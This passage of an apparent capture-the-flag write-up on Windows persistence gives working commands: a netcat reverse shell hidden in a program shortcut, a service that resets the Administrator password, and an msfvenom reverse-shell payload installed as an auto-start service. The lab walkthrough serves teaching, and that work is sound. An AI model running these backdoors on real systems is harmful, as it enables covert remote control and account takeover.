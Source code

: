 Additionally, we can create a reverse shell by attaching a PowerShell script to the shortcut or target area of a legitimate program.

```powershell
Start-Process -NoNewWindow "C:\tools\nc64.exe" "-e cmd.exe 10.13.28.215 1337"
```

Adjust the target area using this shortcut:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\script.ps1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396236331/ce2adc07-68f7-430c-a60c-297444f2690d.png){: .center-image }

Now, we want to initiate a `Netcat` listener in order to capture the shell.

```bash
rlwrap -cAr nc -lvnp 1337
```

Execute the shortcut:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396279105/f672ddfa-89e4-4d71-92c7-00ceea7a0202.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396283605/bee5e1dc-ea0a-4fcf-b7e7-d5df5ce81e25.png){: .center-image }

Grab `flag5.exe` from here.

### Abusing Services

We can create a backdoor in system services using the following methods.

```powershell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
```

```powershell
sc.exe start THMservice
```

This essentially changes the password of the Administrator user to Passwd123. Additionally, we can also create a reverse shell using `msfvenom` and associate it with the service we created.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe-service -o rev-svc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396484309/0c796ea6-cc61-4019-addd-6e99c0e47045.png){: .center-image }

Upload using `Evil-WinRM`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396494821/b22cf658-8474-4395-85cd-67107770316d.png){: .center-image }

Assign the executable as a service, configure the listener to intercept the shell, and then initiate the service:

```powershell
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
```
